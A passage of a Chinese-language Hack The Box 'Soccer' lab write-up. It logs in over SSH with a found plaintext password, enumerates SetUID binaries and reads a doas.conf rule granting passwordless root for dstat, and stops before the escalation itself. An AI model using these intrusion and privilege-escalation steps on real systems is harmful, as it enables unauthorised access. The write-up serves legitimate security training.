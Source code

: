 ## SSH登录

+ 22端口开启，用`player:PlayerOftheMatch2022`尝试登录SSH:

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB]
    └─$ ssh player@soccer.htb                        
    player@soccer.htb's password: 
    ···
    player@soccer:~$ whoami
    player
    player@soccer:~$ id
    uid=1001(player) gid=1001(player) groups=1001(player)
    player@soccer:~$ dir /home
    player
    player@soccer:~$ cd /home/player
    player@soccer:~$ dir
    user.txt
    ```

## 提权

+ 查询执行sudo的权限以及寻找 SetUID 二进制文件：

    ```
    player@soccer:~$ sudo -l
    [sudo] password for player: 
    Sorry, user player may not run sudo on localhost.
    player@soccer:~$ find / -perm -u=s -type f 2>/dev/null
    /usr/local/bin/doas
    /usr/lib/snapd/snap-confine
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/eject/dmcrypt-get-device
    /usr/bin/umount
    /usr/bin/fusermount
    /usr/bin/mount
    /usr/bin/su
    /usr/bin/newgrp
    /usr/bin/chfn
    /usr/bin/sudo
    ```

+ doas 是一个实用程序，允许标准用户以 root 身份执行任务，就像 sudo 一样。它是由 OpenBSD 项目开发的，作为 sudo 的简约替代品，因此，该程序比 sudo 小得多。虽然它是作为 OpenBSD 的一部分开发的，但它还有一个可移植版本，可以与其他类 Unix 系统（包括 Linux）一起使用。

+ 查看`doas`配置文件：

    ```
    player@soccer:~$ find / -name doas.conf 2>/dev/null
    /usr/local/etc/doas.conf
    player@soccer:~$ cat /usr/local/etc/doas.conf
    permit nopass player as root cmd 
    player@soccer:~$ /usr/bin/dstat
    You did not select any stats, using -cdngy by default.
    --total-cpu-usage-- -dsk/total- -net/total- ---paging-- ---system--
    usr sys idl wai stl| read  writ| recv  send|  in   out | int   csw 
    1   0  99   0   0| 130k   38k|   0     0 |   0     0 | 275   559 
    0   0  99   0   0|   0     0 | 506B 1066B|   0     0 | 249   479 
    0   0 100   0   0|   0     0 | 132B  436B|   0     0 | 214   466 
    0   1  99   0   0|   0     0 |  66B  342B|   0     0 | 226   459 
    1   0  99   0   0|   0     0 |  66B  342B|   0     0 | 234   461 
    0   1  99   0   0|   0     0 | 132B  436B|   0     0 | 214   449 
    ···